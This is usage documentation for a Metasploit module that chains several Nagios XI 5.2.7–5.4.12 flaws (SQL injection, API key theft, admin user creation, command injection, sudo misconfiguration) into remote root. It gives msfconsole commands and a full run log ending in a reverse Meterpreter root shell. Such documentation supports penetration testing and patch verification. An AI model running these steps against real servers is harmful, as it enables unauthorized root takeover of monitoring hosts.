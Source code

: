 ## Vulnerable Application
	Nagios XI 5.2.7 - 5.4.12 Chained Remote Root RCE

	This exploit combines many different vulnerabilities in Nagios XI to 
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration 
     to get remote root shell.
  6. Remove added admin user, and reset database user.
 
  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. ```use exploit/linux/http/nagios```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf > use exploit/linux/http/nagios_xi

msf exploit(nagios_xi) > set LHOST 15.0.0.181
LHOST => 15.0.0.181
msf exploit(nagios_xi) > set RHOST 10.20.1.194
RHOST => 10.20.1.194
msf exploit(nagios_xi) > exploit

[*] Started reverse TCP handler on 15.0.0.181:4444 
[*] STEP 0: Get Nagios XI version string.
[+] STEP 0: Found Nagios XI version: 5.3.0
[*] STEP 1: Setting Nagios XI DB user to root.
[*] STEP 1: Received a 302 Response. That's good!
[*] STEP 2: Exploiting SQLi to extract user API keys.
[*] STEP 2: Received a 302 Response. That's good!
[*] Found 1 unique api keys
[*] 67e52c8b387b0d17cb94b66788adaa40
[*] STEP 3: Using API Keys to add an administrative user...
[*] STEP 3: trying to add admin user with key 67e52c8b387b0d17cb94b66788adaa40
[+] Added user:aYJupLthTjZnwSQb password:heuOsZJMjwUYFpit userid:3
[*] STEP 4.1: Authenticate as user aYJupLthTjZnwSQb with password heuOsZJMjwUYFpit
[*] STEP 4.1: Get NSP and nagiosxi for login..
[*] STEP 4.1: login_nsp 1c52b832891f65d961e69d0db9a583f88c1dddcf637d37405c88d70a5371fe77 
[*] STEP 4.1: login_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 4.2: Authenticating...
[*] STEP 4.2: authed_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 5.1: executing payload
[*] STEP 5.2: removing scripts from disc
[*] Command Stager progress - 100.00% done (701/701 bytes)
[*] STEP 6.1: Setting Nagios XI DB user to nagiosql.
[*] STEP 6.1: Received a 302 Response. That's good!
[*] STEP 6.2: deleting admin
[*] Sending stage (847604 bytes) to 10.20.1.194
[*] Meterpreter session 1 opened (15.0.0.181:4444 -> 10.20.1.194:35750) at 2018-04-26 17:36:22 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 

```
